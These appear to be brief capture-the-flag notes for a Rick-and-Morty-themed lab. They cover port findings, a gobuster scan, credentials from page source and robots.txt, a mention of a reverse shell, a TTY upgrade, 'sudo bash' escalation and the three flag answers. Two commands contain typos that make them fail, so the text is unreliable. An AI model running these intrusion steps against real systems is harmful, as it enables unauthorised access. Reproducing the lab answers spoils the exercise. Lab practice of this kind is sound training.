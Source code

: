 # BASIC INFO

```
export IP=10.10.152.123


open port:
	22/tcp OpenSSH 7.2p2
	80/tcp Apache httpd2.4.18
```

Run gobuster on the ip
```
gobuster dir -u http://10.10.152.123 --wrodlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,sh,cgi,css,txt,html,js,py


```

# CREDENTIALS

On the website page source
username = R1ckRul3s

In robots.txt
Wubbalubbadubdub

# EXPLOIT

```
grep . *
```
1st ingredient = mr. meeseek hair

# REVERSE SHELL
use python reverse shell from pentestmonkey
using python3 since python not recognized by the OS

```
python3 -c "impoty pty; pty.spawn('/bin/bash')"
ctrl^z
stty raw -echo
fg
export TERM=xterm

```

# REMAINING INGREDIENT

```
cd /home/rick
2nd ingredient = 1 jerry tear

sudo bash
3rd ingredient = fleeb juice
```